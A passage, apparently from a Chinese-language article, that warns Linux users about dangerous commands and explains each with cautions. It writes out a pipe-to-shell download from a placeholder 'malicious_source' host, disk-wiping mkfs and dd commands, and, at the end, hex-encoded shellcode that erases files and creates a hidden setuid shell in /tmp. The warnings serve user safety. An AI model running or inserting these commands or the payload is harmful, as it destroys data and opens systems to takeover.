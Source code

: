 ```
mv /home/root/* /dev/null
```

# wget http://malicious_source -O- | sh

该命令会从一个（也许是）恶意源下载一个脚本并执行。

wget命令会下载这个脚本，而sh会（无条件的）执行下载下来的脚本。

注意: 你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。

# mkfs.ext3 /dev/sda

上列命令会格式化块设备‘sda’，在执行这个命令后你的块设备(硬盘驱动器)会被格式化，直接让你的系统达到不可恢复的阶段。

通常我们不会直接使用/dev/sda这样的设备，除非是作为raw设备使用。

一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁灭性的，上面的数据都会被蒸发了。

# > file

这个命令常用来清空文件内容或记录命令输出。

不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。

你可能真正想用的是“>>”，即累加新的输出到文件，而不是刷新那个文件。

如果用上列执行时输入错误或无知的输入类似 “> xt.conf”　的命令会覆盖配置文件或其他任何的系统配置文件。

# ^foo^bar

这个命令用来编辑先前运行的命令而无需重打整个命令。

用foobar命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。

# dd if=/dev/random of=/dev/sda

这个命令会向块设备sda写入随机的垃圾文件从而擦出数据，让你的系统可能陷入混乱和不可恢复的状态。

记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。

# 隐藏命令

下面的命令其实就是上面第一个命令 (rm -rf)。

这里的代码是隐藏在十六进制里的,一个无知的用户可能就会被愚弄，如果在终端里运行下面命令可能会擦除你的根分区。

真正的危险是隐藏起来的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。

切记，千万不要编译／运行从未知来源的代码。

```shell
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```


